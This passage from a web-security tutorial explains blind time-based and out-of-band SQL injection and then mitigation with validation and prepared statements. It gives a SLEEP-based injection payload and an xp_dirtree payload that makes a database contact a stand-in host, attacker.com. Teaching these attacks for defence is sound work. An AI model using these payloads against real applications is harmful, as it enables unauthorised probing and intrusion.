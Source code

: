 ```sql
' OR IF(1=1, SLEEP(10), false) --
```

The whole point of the attack is to monitor the server response time. If there are delays in the response (in our case around 10 seconds), it means that the application is vulnerable to SQL Injection and the attack can be launched.

**Out-of-Bound SQL Injection**
This is a rather heavy type of SQL injection and its success depends heavily on the configuration of the target server. As an example, let's imagine that our target is using Microsoft SQL Server.

Let's imagine our bad fella runs their server on `attacker.com`. Their goal is to intercept all incoming DNS requests that are sent to their server, which is the **server vulnerability identifier**.

After that, he sends the following payload:

```sql
'; EXEC master..xp_dirtree '//attacker.com/sample'--.
```

If the database is misconfigured, `xp_dirtree` initiates a DNS lookup for the domain `attacker.com`, attempting to resolve the network path `//attacker.com/sample`. The attacker is not trying to steal data this way, their goal is to **detect** the presence of a vulnerability, which they do in this method as their server intercepts DNS requests to themselves.

#### Mitigation

The only appropriate solution for mitigating this type of vulnerability is to validate the input and then use `Prepared Statements`.

Validation alone **will not** save you from SQL injections, it is hard to make a universal rule, we need to guarantee **isolation** of user input from query. Validation here acts as an additional yet **mandatory** layer of security to make sure that the data is syntactically and semantically correct.

Here's an example of a proper code, with validation and using Prepared Statement. We will use [Netryx Armor](https://github.com/OWASP/www-project-netryx/tree/main) as the validation tool:

```java
armor.validator().input().validate("username", userInput)
        .thenAccept(validated -> {
            var query = "SELECT * FROM users WHERE username = ?";

            try (var con = dataSource.getConnection()) {
                var statement = con.prepareStatement(query);
                statement.setString(1, validated);

                // execute query
            }
        });
```

If our goal is to passively block such data then machine learning models do a good job at this. Very good one at detecting injection attempts is **Naive Bayes**.

### NoSQL Injection
